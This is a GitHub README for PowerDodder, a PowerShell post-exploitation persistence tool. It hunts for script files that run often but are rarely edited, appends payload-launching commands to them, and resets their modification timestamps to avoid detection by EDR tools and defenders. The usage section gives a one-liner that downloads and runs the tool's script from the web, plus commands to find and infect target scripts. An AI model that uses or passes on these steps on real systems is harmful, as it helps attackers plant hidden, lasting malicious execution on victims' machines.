 # PowerDodder

**PowerDodder** is a post-exploitation persistence utility designed to stealthily embed execution commands into existing script files on the host. By leveraging files that are frequently accessed but rarely modified, it targets high-likelihood execution vectors with minimal detection risk.

## 🧠 Background

Traditional persistence methods (e.g., Registry `Run` keys, scheduled tasks) are often monitored or flagged by EDRs and blue teams. PowerDodder takes a novel approach:

- It hunts for existing script files on disk (`.ps1`, `.bat`,`.cmd`, `.vbs`, `.js`).
- It prioritizes those that:
  - **Have been accessed recently** (indicating they're being executed often).
  - **Haven’t been modified recently** (suggesting they're not actively edited).
- It lets you choose the target script(s), and then it appends a payload-spawning command using a context-appropriate syntax (PowerShell, VBScript, JScript, etc.).

This allows for low-noise persistence, hitching a ride on legitimate execution paths.

## 🛠️ Usage

### 1. Load the script

```
iex (iwr https://raw.githubusercontent.com/itaymigdal/PowerDodder/refs/heads/main/PowerDodder.ps1) 
```

### 2. Run a Hunt

Scans predefined folders (`C:\Users\`, `C:\Program Files\`, `C:\Program Files (x86)\`,`C:\ProgramData\`) for promising script files.
```
DodderHunt
```
You can also target a specific folder:
```
DodderHunt -FolderPath "C:\CustomPath"
```
**Optional params:**

-LastAccessTimeThreshold: default is 7 days.

-LastModifyTimeThreshold: default is 3 months.

You can set different thresholds like that:
```
$DifferentModifyThreshold = (get-date).AddMonths(-4)
$DifferentAccessThreshold = (get-date).AddDays(-20)
DodderHunt -LastAccessTimeThreshold $DifferentAccessThreshold -LastModifyTimeThreshold $DifferentModifyThreshold
```

### 3. Infect a script
```
DodderInfect -ID <CandidateID> -PersistCommand <ExecutionCommand>
```
This will:
- Create the appended line of your command based on the relevant template.
- Modify the file by appending the persistence command.
- Restore the original script LastWriteTime attribute to hide the modification.
- Move the infected script to the Infected list.

### 4. Helpers

- DodderShow: Lists found candidates and already-infected files.
- DodderClearCandidates: Empties the current candidates list (useful before rescanning).


## 📚 Name Origin
The name Dodder comes from a parasitic vine that attaches itself to host plants, slowly feeding off them without killing them — much like this tool latches onto host scripts for persistent execution.

